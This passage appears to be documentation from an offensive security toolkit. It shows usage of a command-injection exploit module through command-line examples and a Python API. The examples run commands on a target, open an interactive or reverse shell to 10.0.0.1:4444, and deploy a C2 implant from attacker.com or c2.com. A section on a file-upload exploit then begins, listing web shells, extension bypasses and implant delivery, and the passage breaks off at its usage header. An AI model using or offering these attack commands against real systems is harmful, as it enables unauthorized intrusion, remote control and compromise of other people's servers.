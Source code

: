 **Usage:**

```bash
# Test for vulnerability
python initial_access/cmd_injection.py http://target.com --endpoint /api/process --param file --test

# Execute single command
python initial_access/cmd_injection.py http://target.com --cmd "whoami"

# Interactive shell
python initial_access/cmd_injection.py http://target.com --shell

# Reverse shell
python initial_access/cmd_injection.py http://target.com --reverse 10.0.0.1:4444

# Deploy C2 implant
python initial_access/cmd_injection.py http://target.com --c2 http://attacker.com:8443
```

**Python API:**

```python
from initial_access.cmd_injection import CmdInjectionExploit

exploit = CmdInjectionExploit('http://target.com')

# Test vulnerability
is_vuln, technique = exploit.test_vulnerability('/api/process', 'file', 'POST')

# Execute command
output = exploit.execute_command('/api/process', 'file', 'whoami', technique, 'POST')

# Get reverse shell
exploit.get_reverse_shell('/api/process', 'file', technique, '10.0.0.1', 4444)

# Deploy implant
exploit.deploy_implant('/api/process', 'file', technique, 'http://c2.com:8443')
```

### 5. File Upload Exploit (`initial_access/file_upload.py`)

Unrestricted file upload exploitation with bypass techniques.

**Features:**
- Upload vulnerability detection
- Extension bypass techniques
- MIME type manipulation
- Multiple web shell types (PHP, ASPX, JSP, Python)
- Interactive shell via uploaded shell
- C2 implant delivery

**Usage:**
